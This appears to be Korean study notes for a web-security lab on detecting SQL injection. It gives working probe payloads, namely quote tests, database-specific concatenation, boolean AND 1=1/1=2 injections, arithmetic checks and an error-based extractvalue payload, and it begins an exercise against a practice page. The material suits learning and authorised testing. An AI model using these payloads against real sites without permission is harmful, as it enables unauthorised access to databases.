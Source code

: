 2. 잠재적 취약 여부 검증
- 문자열 타입인 경우
매개 변수의 값에 홑따옴표(')를 입력해 제출해보고 HTTP 응답 메시지를 살펴본다
```bash
idx=1234'

idx=12' '34      (MySQL 또는 MariaDB)
idx=12'%2B'34    (MSSQL)
idx=12'||'34     (Oracle)
```
%2B는 더하기 기호가 URL 인코딩 된것이다. "AND 1=1","AND 1=2"와 같은 논리 조건을 주입하여 취약한지 테스트한다 -> 등호(=) 기호는 URL 인코딩 시 %3D
```bash
idx=1234%27+AND+1%3D1--+     (참이 되는 조건 주입)  
idx=1234%27+AND+1%3D2--+     (거짓이 되는 조건 주입) 
```
- 숫자 타입인 경우
```bash
idx=4

# 산술 연산자 사용
idx=5-1
idx=3+1
idx=53-ASCII(1)     ---> ASCII(1)의 값은 49로 계산 결과는 4임

# 논리 조건 주입
idx=4+AND+1%3D1--+     (참이 되는 조건 주입)  
idx=4+AND+1%3D2--+     (거짓이 되는 조건 주입)    
```
- 오류 기반 공격 기법이 가능한지 파악
XPath 기법을 이용해 오류가 유발되는지 확인
```bash
idx=1234'+AND+extractvalue(rand(),concat(0x3a,'sqlitest'))--+

# 숫자 타입인 경우
idx=1234+AND+extractvalue(rand(),concat(0x3a,'sqlitest'))--+

# HTTP 응답 메시지 안에 다음과 같은 오류 발생 시 오류 기반의 SQL Injection에 취약하다
XPATH syntax error: ':sqlitest'
```

# 실습 문제 
## Exercise1
| 이 문제는 매개변수가 WHERE절에 사용된 문자열 타입의 컬럼과 연결됩니다. 

1. 홑따옴표를 추가해 에러메시지 확인
![](1.png)
MariaDB 서버 인것을 확인했다.
```bash
https://.../sqli_err_ex1.php?name=Faye%20Valentine%27

```